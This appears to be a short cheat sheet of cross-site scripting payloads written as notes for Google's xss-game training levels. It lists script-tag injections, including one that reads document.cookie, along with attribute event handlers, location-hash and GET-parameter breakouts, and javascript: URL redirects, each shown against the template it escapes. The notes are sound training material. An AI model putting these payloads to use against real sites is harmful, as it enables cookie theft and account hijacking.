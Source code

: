## With script tag
- Enter search input: <script>alert(123)</script> or %3cscript%3ealert(document.cookie)%3c/script%3e
- <script>localStorage.setItem('Bob', document.cookie)</script>
<!-- Next step would be send ajax request -->


## With tag js attribute
- Post to comments: <b onmouseover="alert('XSS testing!')"></b>


## Location hash is executed from app js script
- https://xss-game.appspot.com/level3/frame#'/><script>alert(1)</script>
                                            ^^^ close image tag and perform script

## Inject to GET param of request

Escape codes: https://www.w3schools.com/tags/ref_urlencode.ASP
'	%27
(	%28
)	%29
;	%3B

- https://xss-game.appspot.com/level4/frame?timer='%2Balert(1)%2B'

<img src="/static/loading.gif" onload="startTimer('{{ timer }}');" /> -----> <img src="/static/loading.gif" onload="startTimer('' + alert(1) + '');">

## JS could be executed with `javascript:` within tag

https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(1)


/confirm?next=%27%3Balert%281%29%3B%27
              '  ;alert(1);'

setTimeout(function() { window.location = '{{ next }}'; }, 5000);
                                          ^^
setTimeout(function() { window.location = '';alert(1);''; }, 5000);
